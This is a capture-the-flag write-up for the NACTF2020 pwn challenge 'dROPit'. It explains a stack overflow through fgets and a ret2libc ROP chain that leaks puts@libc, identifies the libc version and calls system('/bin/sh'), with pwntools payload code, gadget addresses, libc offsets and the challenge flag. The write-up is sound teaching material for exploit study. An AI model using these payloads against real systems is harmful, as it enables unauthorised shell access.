



# NACTF2020 - dROPit

- Write-Up Author: Rb916120 \[[MOCTF](https://www.facebook.com/MOCSCTF)\]

- Flag:nactf{r0p_y0ur_w4y_t0_v1ct0ry_698jB84iO4OH1cUe}

## Challenge Description:
dROPit - 300

>You're on your own this time. Can you get a shell?  
>nc challenges.ctfd.io 30261  
>-asphyxia  
>  
>Hint  
>https://libc.rip

[dROPit](./dROPit)

ps: to run the solve.py in local machine. you have to __revise the control parameter__ and __revise the libc path__  
```
from pwn import *
from struct import *

_remote=1		<<==== set to 0 if run in local
_debug=0		<<==== set to 1 to show the leaked address
_gdb=0			<<==== set to 1 if you want to attach to gdb in local machine

prog="./dropit"
elf_prog=ELF(prog)

if _remote:
	proc=remote("challenges.ctfd.io",30261)
	libc=ELF("./libc6_2.32-0ubuntu3_amd64.so")
else:
	proc=process(prog)
	#ldd dropit <-- to check the libc in your environment
	libc=ELF("/lib/x86_64-linux-gnu/libc.so.6")		<<==== modify this path to the patch of your libc file
								<<==== can find with "ldd dropit" command
......
......
......
```

## Write up  
__below tools mentioned in this writeup__  
[libc-database](https://github.com/niklasb/libc-database) - search for libc with 12bits offset,super useful when you don't know the libc file  

__Reference:__  
[Stack frame layout on x86-64](https://eli.thegreenplace.net/2011/09/06/stack-frame-layout-on-x86-64)  
[PLT and GOT](https://www.technovelty.org/linux/plt-and-got-the-key-to-code-sharing-and-dynamic-libraries.html)
[ELF document](https://stevens.netmeister.org/631/elf.html)

---

in Pwn challange, the first thing we do is check the security properties of the executable file.  
```
$checksec dropit
[*] '/root/Desktop/NACTF/dropit'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

ok there is only RELRO and NX enabled. at least we don't have to deal with PIE...  
```
Relocation Read-Only (RELRO)
Relocation Read-Only (or RELRO) is a security measure which makes some binary sections read-only.

Stack Canaries
Stack Canaries are a secret value placed on the stack which changes every time the program is started. 
Prior to a function return, the stack canary is checked and if it appears to be modified, the program exits immediately.

No eXecute (NX Bit)
The No eXecute or the NX bit (also known as Data Execution Prevention or DEP) marks certain areas of the program as not executable, 
meaning that stored input or data cannot be executed as code. This is significant because it prevents attackers from being able to jump to custom shellcode that they've stored on the stack or in a global variable.

Position Independent Executables (PIE)
PIE is a body of machine code that, being placed somewhere in the primary memory, executes properly regardless of its absolute address

```

reversed the executable file and there is a simple program to get the input with __fgets__   
```c
undefined8 main(void)

{
  char local_38 [48];
  
  setvbuf(stdout,(char *)0x0,2,0);
  puts("?");
  fgets(local_38,100,stdin);
  return 0;
}

```

look at the man page of __fgets__ , fgets() only recognize null byte ('\0') as terminate character.  
which mean we can overflow the stack with this function.  
```shell
FGETC(3)                                 Linux Programmer's Manual                                 FGETC(3)

NAME
       fgetc, fgets, getc, getchar, ungetc - input of characters and strings

SYNOPSIS
       #include <stdio.h>

       int fgetc(FILE *stream);

       char *fgets(char *s, int size, FILE *stream);

       int getc(FILE *stream);

       int getchar(void);

       int ungetc(int c, FILE *stream);

DESCRIPTION
......

       fgets()  reads  in at most one less than size characters from stream and stores them into the buffer
       pointed to by s.  Reading stops after an EOF or a newline.  If a newline is read, it is stored  into
       the buffer.  A terminating null byte ('\0') is stored after the last character in the buffer.

......

```
 
let consolidate what we know,  
 1. only RELRO and NX enabled  				<-- can't call shell code  
 2. fgets can let us overflow the buffer	<-- we can leverage ROP(Return Oriented Programming) to call system('/bin/sh')  
 
before construct the payload, we need to know the address of system(), '/bin/sh' which high probabilities can find in libc file.   
but we don't have the file. we cam find the libc version by [libc-database](https://github.com/niklasb/libc-database)  
>Find all the libc's in the database that have the given names at the given addresses.  
>Only the last 12 bits are checked, because randomization usually works on page size level.  

therefor, the first thing we have to know some __leak address__ then find the __libc__ according to the leaked address then we can __find the address of system(), '/bin/sh__ , last we can __get the shell__    

1. leak address  
2. get the libc  
3. find the address of system(), '/bin/sh' and construct payload  
4. get shell!!  

---

### 1. leak address  

disassemble main(), 2 things we can leverage.
setvbuf@plt 	<-- a pointer to GOT(Gobal offerset table) of setvbuf@libc  
puts@plt  
fgets@plt  
and ret			<-- pop the stack to next instruction pointer  
```shell
(gdb) disassemble main
Dump of assembler code for function main:
   0x0000000000401146 <+0>:	push   rbp
   0x0000000000401147 <+1>:	mov    rbp,rsp
   0x000000000040114a <+4>:	sub    rsp,0x30
   0x000000000040114e <+8>:	mov    rax,QWORD PTR [rip+0x2ebb]        # 0x404010 <stdout@@GLIBC_2.2.5>
   0x0000000000401155 <+15>:	mov    ecx,0x0
   0x000000000040115a <+20>:	mov    edx,0x2
   0x000000000040115f <+25>:	mov    esi,0x0
   0x0000000000401164 <+30>:	mov    rdi,rax
   0x0000000000401167 <+33>:	call   0x401050 <setvbuf@plt>
   0x000000000040116c <+38>:	mov    edi,0x402004
   0x0000000000401171 <+43>:	call   0x401030 <puts@plt>
   0x0000000000401176 <+48>:	mov    rdx,QWORD PTR [rip+0x2ea3]        # 0x404020 <stdin@@GLIBC_2.2.5>
   0x000000000040117d <+55>:	lea    rax,[rbp-0x30]
   0x0000000000401181 <+59>:	mov    esi,0x64
   0x0000000000401186 <+64>:	mov    rdi,rax
   0x0000000000401189 <+67>:	call   0x401040 <fgets@plt>
   0x000000000040118e <+72>:	mov    eax,0x0
   0x0000000000401193 <+77>:	leave  
   0x0000000000401194 <+78>:	ret    
End of assembler dump.

``` 

we can leverage ROP to leak the address of libc function(setvbuf,puts,fgets). to let the function run __puts(*puts@libc)__  
simple explain of the PLT and GOT 
>.plt - For dynamic binaries, this Procedure Linkage Table holds the trampoline/linkage code.  
>.got - For dynamic binaries, this Global Offset Table holds the addresses of variables which are relocated upon loading.


detail can be found on [PLT and GOT](https://www.technovelty.org/linux/plt-and-got-the-key-to-code-sharing-and-dynamic-libraries.html)  

so we just let the program run __puts@plt(*puts@got)__, that both thing we can find in the program that will lead us to find the address of puts@libc  

then, we have to consider how to let program run __puts@plt(*puts@got)__  
explain of the x64 stack
```
 Low Address |                 |
             +-----------------+
     rsp =>  |     buffer      |
             +-----------------+
             |     buffer      |
             +-----------------+
             |     buffer      |
             +-----------------+
             |     buffer      |
             +-----------------+
     rbp =>  |     old rbp     |
             +-----------------+
             |   return addr   |
             +-----------------+
             |      args7      |
             +-----------------+
High Address |                 |

args1-6 are in %rdi,%rds,%rdx,%rxc,%r8 and %r9

```



detail can be found on [Stack frame layout on x86-64](https://eli.thegreenplace.net/2011/09/06/stack-frame-layout-on-x86-64) 

let it be simple, to construct __puts@plt(*puts@got)__  
we have to let %rdi = *puts@got and return address point to puts@plt  
the stack need to construct like this  
```
 Low Address |                 |
             +-----------------+
     rsp =>  |     padding     |
             +-----------------+
             |     padding     |
             +-----------------+
             |     padding     |
             +-----------------+
             |     padding     |
             +-----------------+
     rbp =>  |     padding     |
             +-----------------+
             |   pop rdi;ret   |
             +-----------------+
             |   *puts@got     |
             +-----------------+
High Address |   __puts@plt    |
```


so, the leak payload should be like this 
```python

#ROPgadget --binary dropit --only "pop|ret"
#0x0000000000401203 : pop rdi ; ret
pop_rdi_ret=0x0000000000401203

#################################################################
##
## payload 1 for libc addresss leaking
##
## construct ROP puts(got_puts) => print the address of puts@libc
##
#################################################################
payload  = ""
payload += "A"*(3*4*4+8) # padding to RBP of main
payload += pack("Q",pop_rdi_ret)
payload += pack("Q",got_puts)
payload += pack("Q",plt_puts) # puts(got_puts)
payload += pack("Q",addr_main) # go back to main for continues exploit

proc.sendlineafter('?\n',payload)

## extract the leaked address from the reply and convert to int for further operation
raw_byte= proc.recvline()
libc_puts=unpack("Q",raw_byte[:-1].ljust(8, '\x00'))[0]
```

bingo!



### 2. get the libc   

we can use __d90__ and __puts__ to found the libc version on https://libc.rip
then we find the libc version should be  
libc6_2.32-0ubuntu2_amd64  
or  
libc6_2.32-0ubuntu3_amd64  

### 3. find the address of system(), '/bin/sh' and construct payload  

we can find the offset of 
```
libc6_2.32-0ubuntu3_amd64
Download	Click to download
All Symbols	Click to download
BuildID	7ec3e74da842ca3c6a9ba20b21303ce1bc7a45af
MD5	466d3c76ab2fc51a488b38b928e8ffb9
__libc_start_main_ret	0x28cb2
dup2	0x1095a0
fgets	0x7efa0
printf	0x5fd90
puts	0x80d90
read	0x108ca0
str_bin_sh	0x1ae41f
system	0x503c0
write	0x108d40
```

as the libc will be load into memory with same sequence.
thence, we can easily calculate the base address of libc.and construct the payload as previous.  
but there is little tricky in that version of libc, we have to align the RSP as below link mentioned.
https://stackoverflow.com/questions/54393105/libcs-system-when-the-stack-pointer-is-not-16-padded-causes-segmentation-faul
```python
# caluelate the base address of libc
libc_base=libc_puts-libc.symbols['puts']
# caluelate the system() address of libc
libc_system=libc_base+libc.symbols['system']
# caluelate the '/bin/sh' address of libc
libc_binsh=libc_base+libc.search('/bin/sh').next()

#################################################################
##
## payload 2 for get intetactive shell
##
## construct ROP system('/bin/sh') => print the address of puts@libc
##
#################################################################
payload4  = ""
payload4 += "A"*(3*4*4+8) # padding to RBP of main
# return and align the RSP, due to this libc6_2.23 will check the alignment of RSP
# <do_system+1094>: movaps XMMWORD PTR [rsp+0x40],xmm0
payload4 += pack("Q",addr_ret) 
payload4 += pack("Q",pop_rdi_ret)
payload4 += pack("Q",libc_binsh)
payload4 += pack("Q",libc_system) # system@libc('/bin/sh'@libc)
``` 
 
### 4. get shell!!  



>nactf{r0p_y0ur_w4y_t0_v1ct0ry_698jB84iO4OH1cUe}
